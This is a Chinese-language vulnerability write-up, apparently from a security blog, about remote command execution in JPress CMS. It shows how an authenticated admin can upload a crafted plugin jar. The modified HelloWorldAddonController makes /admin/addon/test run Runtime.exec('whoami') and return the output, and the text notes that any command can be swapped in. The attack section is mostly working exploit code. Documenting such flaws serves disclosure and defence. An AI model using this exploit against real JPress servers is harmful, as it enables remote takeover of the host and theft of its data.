

## JPress-CMS 远程命令执行漏洞

JPress一个使用 Java 开发的、类似 WordPress 的产品，支持多站点、多语种自动切换等。

JPress 是一个使用 Java 开发的、开源免费 的建站神器，灵感来源于 WordPress，目前已经有超过 10w+ 的网站使用 JPress 搭建，其中包括多个政府机构，200+上市公司，中科院、红十字会等。

JPress后台存在可上传系统插件接口，具体以jar包或zip进行上传，Java代码中含有上传插件的测试类，我们可以通构造恶意的jar包并上传至系统服务器上，并通过访问测试类的接口进行触发解析，从而造成远程命令执行。

可通过此漏洞执行服务器系统命令，获取系统信息。

漏洞地址：http://ip:8080/admin/addon/test

代码下载地址：https://gitee.com/JPressProjects/jpress.git

漏洞位置：登录系统后上传插件功能点上。

### 漏洞利用

点击所有插件-安装插件，上传恶意jar包。




原测试test接口的代码如下：

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public void adminmenutest() {
        renderText("addon test abc");
    }
}

```

经修改后的test测试接口内容如下，由于我们需要让系统执行此代码，所以我们需要在之前接口信息的基础上修改代码逻辑即可。将此HelloWorldAddonController类打包成jar包并上传。

```
package io.jpress.addon.helloworld;

import com.jfinal.core.ActionKey;
import com.jfinal.kit.Ret;
import io.jboot.web.controller.JbootController;
import io.jboot.web.controller.annotation.RequestMapping;
import io.jpress.JPressConsts;
import io.jpress.core.menu.annotation.AdminMenu;

import java.io.BufferedInputStream;
import java.io.BufferedReader;
import java.io.IOException;
import java.io.InputStreamReader;


@RequestMapping(value = "/helloworld",viewPath = "/")
public class HelloWorldAddonController extends JbootController {

    public void index() {
        setAttr("version","1.0.2");
        render("helloworld/index.html");
    }

    public void json() {
        renderJson(Ret.ok().set("message", "json ok...."));
    }

    @ActionKey("/admin/addon/test")
    @AdminMenu(groupId = JPressConsts.SYSTEM_MENU_ADDON, text = "插件测试")
    public String adminmenutest() {

        Runtime runtime = Runtime.getRuntime();
        StringBuilder sb = new StringBuilder();
        try {
            Process process = runtime.exec("whoami");
            BufferedInputStream inputStream = new BufferedInputStream(process.getInputStream());
            BufferedReader reader = new BufferedReader(new InputStreamReader(inputStream));

            String tmpStr;
            while ((tmpStr = reader.readLine()) != null) {
                sb.append(tmpStr);
            }

            if (process.waitFor() != 0) {
                if (process.exitValue() == 1)
                    return "Command exec failed!!";
            }

            reader.close();
            inputStream.close();
        }catch (Exception e) {
            return e.toString();
        }
        return sb.toString();
    }
}

```


调用test接口后可发现，上面我们设计的jar包中的`whoami`命令执行成功，返回我本机的当前用户。


可通过修改执行命令的形式，执行其他命令。